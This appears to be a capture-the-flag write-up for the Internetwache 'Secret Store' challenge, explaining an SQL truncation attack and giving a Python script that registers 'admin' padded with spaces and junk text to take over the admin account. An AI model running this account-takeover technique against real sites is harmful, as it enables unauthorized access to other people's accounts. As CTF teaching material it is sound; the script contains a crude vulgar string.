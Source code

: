 # Internetwache : The Secret Store

#### Author: Wh1t3Fox

**Description**:
> We were presented with a website and the following information:
>
> We all love secrets. Without them, our lives would be dull. A student wrote a secure secret store,
> however he was babbling about problems with the database. Maybe I shouldn't use the 'admin' account.
> Hint1: Account deletion is intentional.
> Hint2: I can't handle long usernames.

With Hint2 revealed my first thought was this was an SQL Truncation attack. The basic concept of this
attack is that a user can create an account with a long username, however when logging in the
username gets truncated to the allowed length.

The first thing I did was write a Python script to help me figure out the maximum allowed length for
the username. Once this is found I then used a appended spaces to fill up the max length followed by
a string. The truncation would remove the string at the and match the username
even with the spaces.

### Code

    #1/usr/bin/env python2
    from bs4 import BeautifulSoup as bs
    from random import randrange
    import requests

    url = "https://the-secret-store.ctf.internetwache.org"

    def register(sess, user, passwd, token):
        r = sess.post(url + '/register.php', data={'user':user, 'password':passwd, 'secret':token})

    def login(sess, user, passwd):
        r = sess.post(url + '/index.php', data={'user':user, 'password':passwd})
        soup = bs(r.content, "lxml")
        div = soup.findAll("div", {"class": "jumbotron"})
        print(div[0].contents[2])

    def main():
        sess = requests.Session()

        uname = 'admin' + ' ' * 32 + 'FUCK BITCHES GET MONEY'
        passwd = 'A*4'

        r = sess.get(url)
        register(sess, uname, passwd, passwd)
        login(sess, 'admin', passwd)


    if __name__ == '__main__':
        main()
